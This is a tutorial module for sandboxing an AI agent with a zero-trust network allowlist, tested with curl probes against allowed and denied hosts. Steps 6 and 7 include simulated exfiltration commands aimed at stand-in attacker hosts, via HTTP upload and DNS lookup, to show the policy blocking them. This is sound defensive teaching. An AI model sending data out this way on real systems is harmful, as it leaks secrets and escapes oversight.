

# Network Zero Trust

In this module you will prove that the sandbox can **only** reach explicitly allowed endpoints. Everything else is silently dropped.

## The Network Policy

The Helm chart deploys a ConfigMap containing the zero-trust network policy. Here is the relevant section:

```yaml
network:
  policies:
    - name: deepseek_api
      protocol: tcp
      host: api.deepseek.com
      port: 443
      action: allow
    - name: npm_registry
      protocol: tcp
      host: registry.npmjs.org
      port: 443
      action: allow
    - name: github
      protocol: tcp
      host: github.com
      port: 443
      action: allow
```

**Only three external hosts are reachable** from inside the sandbox:

| Host | Port | Why Allowed |
|------|------|-------------|
| `api.deepseek.com` | 443 | LLM inference for Pi |
| `registry.npmjs.org` | 443 | Package installation |
| `github.com` | 443 | Code repository access |

Everything else — Google, social media, corporate internal services, data exfiltration endpoints — is **denied**.

## How It Works



The policy is enforced at the **network boundary** by the OpenShell Supervisor. It operates at the transport layer — the process inside the sandbox attempts a TCP connection, and the boundary either forwards it or drops it. There is no iptables or NetworkPolicy involved; this is application-layer enforcement by the OpenShell runtime.

## Step 1 — Enter the Sandbox

```bash
openshell sandbox exec pi-agent-demo -- bash
```

## Step 2 — Test ALLOWED: DeepSeek API

```bash
curl -s -o /dev/null -w "HTTP %{http_code}\n" --max-time 5 https://api.deepseek.com/models
```

**Why:** This tests connectivity to the DeepSeek API. The endpoint `/models` returns a list of available models and does not require authentication.

Expected output:

```
HTTP 200
```

✅ **Allowed** — `api.deepseek.com` is in the network policy.

## Step 3 — Test ALLOWED: npm Registry

```bash
curl -s -o /dev/null -w "HTTP %{http_code}\n" --max-time 5 https://registry.npmjs.org/express
```

**Why:** This queries the npm registry for the `express` package metadata. This is the same request `npm install` makes.

Expected output:

```
HTTP 200
```

✅ **Allowed** — `registry.npmjs.org` is in the network policy.

## Step 4 — Test DENIED: Google

```bash
curl -s -o /dev/null -w "HTTP %{http_code}\n" --max-time 5 https://www.google.com
```

**Why:** Google is a well-known, always-available endpoint. An AI agent has no business accessing it — this tests that the deny policy works.

Expected output:

```
curl: (28) Connection timed out after 5001 milliseconds
```

❌ **Denied** — the connection is silently dropped. There is no HTTP response because the TCP connection never completes. The `--max-time 5` flag prevents curl from waiting forever.

## Step 5 — Test DENIED: Arbitrary Endpoint

```bash
curl -s -o /dev/null -w "HTTP %{http_code}\n" --max-time 5 https://example.com
```

Expected output:

```
curl: (28) Connection timed out after 5001 milliseconds
```

❌ **Denied** — `example.com` is not in the allowlist.

## Step 6 — Test DENIED: Data Exfiltration

Simulate a data exfiltration attempt — an agent trying to send stolen data to an attacker's server:

```bash
curl -s -o /dev/null -w "HTTP %{http_code}\n" --max-time 5 https://evil-exfil-server.com/upload
```

Expected output:

```
curl: (28) Connection timed out after 5001 milliseconds
```

❌ **Denied** — even if this server existed, the connection would never leave the sandbox.

## Step 7 — Test DENIED: DNS Exfiltration

Some advanced attacks encode data in DNS queries:

```bash
nslookup stolen-data.evil.com 2>&1 || echo "DNS resolution blocked"
```

Expected: the query fails because outbound DNS is also restricted.

## Step 8 — Exit the Sandbox

```bash
exit
```

## Results Summary

| Test | Target | Expected | Policy |
|------|--------|----------|--------|
| DeepSeek API | `api.deepseek.com` | HTTP 200 | ✅ Allowed |
| npm Registry | `registry.npmjs.org` | HTTP 200 | ✅ Allowed |
| Google | `www.google.com` | Timeout | ❌ Denied |
| Example.com | `example.com` | Timeout | ❌ Denied |
| Exfil Server | `evil-exfil-server.com` | Timeout | ❌ Denied |
| DNS Exfil | `stolen-data.evil.com` | Failure | ❌ Denied |

## Why This Matters

In a traditional container, the AI agent has **unrestricted** network access. It could:

- Call home to any server
- Exfiltrate code, secrets, or data
- Download malware
- Communicate with C2 infrastructure

With OpenShell's zero-trust network policy:

- **Default deny** — nothing is allowed unless explicitly listed
- **Silent drop** — denied connections time out, giving no information to the attacker
- **Boundary enforcement** — the sandbox process cannot bypass it (it's enforced by the supervisor, outside the sandbox)
- **No iptables hacking** — this is not a network firewall rule; it's part of the sandbox runtime

## Next Step

You've proven the network boundary. Next, you'll see how filesystem access is locked down.

Proceed to: **Filesystem Zero Trust** →
